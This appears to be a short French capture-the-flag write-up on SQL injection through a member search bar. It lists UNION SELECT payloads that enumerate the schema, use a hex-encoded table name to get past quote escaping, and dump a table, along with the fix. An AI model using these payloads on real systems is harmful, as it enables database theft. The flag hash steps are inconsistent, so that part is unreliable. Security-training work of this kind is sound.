 Security breach name 	: Injection Sql

Principle 				: Utiliser des inputs mal protégés pour accéder à des données sensibles de la base de données, en modifiant les requêtes faites sur celle-ci.

Solve 					: Ne pas insérer directement les valeurs entré par un utilisateur dans une requête Sql, il existe plusieurs méthodes : binder les valeurs, stringifier les valeurs..

In case 				: Dans la barres de recherche membre, la valeur entrée est diretement insérée dans la requêtes ce qui nous permets dans une certaine mesure de modifier son sens. 
							(La requêtes n'accepte que deux arguments pour le select)
							
							1 - 1 union select table_schema,table_name from information_schema.tables , nous permet de faire apparaître l'ensemble des informations promaires concernant la base de données.

							2 - 1 union select null,group_concat(column_name) from information_schema.columns where table_name = 0x6c6973745f696d61676573 , les quotes étant échappées par le contrôleur on modifie la valeur de du string par sa valeur hexa ce qui nous permet de nous passer des quotes.

							3 - 1 union select title,comment from list_images
							{
								ID: 1 union select title,comment from list_images 
								Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
								Url : Hack me ?
							}
							{
								md5 hash : 5928e8083cf461a51303633093573c46 =  albatroz
								lower all char  = fortytwo
								hash Sh256 = f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
							}
